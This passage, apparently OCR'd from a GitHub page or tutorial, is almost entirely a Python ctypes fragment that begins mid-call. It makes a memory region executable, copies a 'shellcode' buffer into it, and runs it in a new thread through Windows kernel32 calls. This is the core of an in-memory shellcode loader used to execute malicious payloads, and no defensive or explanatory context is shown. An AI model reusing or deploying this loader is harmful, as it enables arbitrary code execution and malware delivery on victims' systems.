 ```python
    ctypes.c_int(0x3000),
    ctypes.c_int(0x04),
)

buffer = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)

ctypes.windll.kernel32.VirtualProtect(
    ptr,
    ctypes.c_int(len(shellcode)),
    0x40,
    ctypes.byref(ctypes.c_long(1))
)

ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr),
    buffer,
    ctypes.c_int(len(shellcode))
)

handle = ctypes.windll.kernel32.CreateThread(
    ctypes.pointer(ctypes.c_int(0)),
    ctypes.c_int(0),
    ctypes.c_void_p(ptr),
    ctypes.pointer(ctypes.c_int(0)),
    ctypes.c_int(0),
    ctypes.pointer(ctypes.c_int(0))
)

ctypes.windll.kernel32.WaitForSingleObject(
    ctypes.c_int(handle),
    ctypes.c_int(-1)
)
```

![](img/3.png)
